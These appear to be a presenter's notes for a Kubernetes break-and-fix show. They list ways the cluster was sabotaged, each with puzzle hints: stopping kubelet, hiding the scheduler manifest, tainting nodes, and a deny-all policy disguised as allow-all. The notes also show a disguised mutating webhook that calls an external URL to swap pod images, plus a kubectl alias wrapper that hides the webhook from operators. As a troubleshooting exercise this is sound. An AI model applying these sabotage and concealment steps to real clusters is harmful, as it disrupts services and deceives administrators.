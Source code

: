 # Klustered Episode 18 - [Carlos Santana](https://twitter.com/csantanapr) Notes

## Hack 1 - NotReady worker nodes

Go to each worker node and stop kubelet
```bash
systemctl stop kubelet
```

- Hints:
    - _Sometimes we start with not being Ready in our nodes_
    - _Kube let it down, it should look up_

## Hack 2 - Remove kube-scheduler

Copy all the static manifest except the kube-scheduler to a new directory, then update the kubelet config to poin to the new location.
```bash
mkdir -p /etc/cubernetes/manifests
cp /etc/kubernetes/manifests/* /etc/cubernetes/manifests/
rm /etc/cubernetes/manifests/kube-scheduler.yaml
sed -i 's#staticPodPath: /etc/kubernetes/manifests#staticPodPath: /etc/cubernetes/manifests#' /var/lib/kubelet/config.yaml
systemctl restart kubelet
```

- Hints:
    - _Missing in action this poor static pod_

## Hack 3 - Taint worker nodes

Taint worker nodes and make them look like something that should be there.
```bash
kubectl taint node csantanapr-worker-1 node-role.kubernetes.io/master='':NoSchedule
kubectl taint node csantanapr-worker-2 node-role.kubernetes.io/master='':NoSchedule
```

- Hints:
    - _Can't land on a node, it might be painted_

## Hack x - Network Policy

Create a deny all all network policy, name allow all

```bash
kubectl apply -n default -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-all-ingress
  namespace: default
spec:
  podSelector: {}
  policyTypes:
  - Ingress
EOF
```

- Hints:
    - _Please allow all, do not deny policy_

## Hack x - Mutation WebHook


Create an dynamic admission control via mutation webhook, that replaces the `v2` application image with a custom one, instead of David is Carlos dancing.

Prevent from finding out the mutatingwebhookconfiguration exists:

1. Have the webhook call an external url instead of running a pod or process on the cluster. I used a [knative.dev](https://knative.dev) serverless function in [IBM Cloud Code Engine](https://www.ibm.com/cloud/code-engine). Name it something that looks legit `k8s.io.config`

    ```yaml
    apiVersion: admissionregistration.k8s.io/v1
    kind: MutatingWebhookConfiguration
    metadata:
    name: k8s.io.config
    webhooks:
    - name: dev.cloudnativetoolkit
    namespaceSelector:
    rules:
    - apiGroups:   [""]
        apiVersions: ["v1"]
        operations:  ["CREATE"]
        resources:   ["pods"]
        scope:       "Namespaced"
    clientConfig:
        url: https://mutating.<project-id>.eu-gb.codeengine.appdomain.cloud
    ```

2. Replace the `kubectl` with an alias that points to a script `/bin/hmwc` that greps for `mutating` and returns `No resources found` to make look like it came from `kubectl get mutatingwebhooconfiguration` not finding any webhooks.
    ```bash
    #!/usr/bin/env bash

    echo $@ | grep -i -q mutating; if [[ $? -eq 0 ]]; then echo "No resources found"; else command kubectl $@; fi
    ```
3. Store the alias in `/etc/profile` instead of `~/.bashrc`
    ```
    echo "alias kubectl=hmwc" >> /etc/profile
    ```

- Hints:
    - _Oh I see someone is dancing, the mutants changed the music?_
    - _Those mutants are hard to spot, maybe check under kubectl or bash profile_


Here is [the dance](https://twitter.com/csantanapr/status/1430965933590384640?s=20) when replacing `v2` image
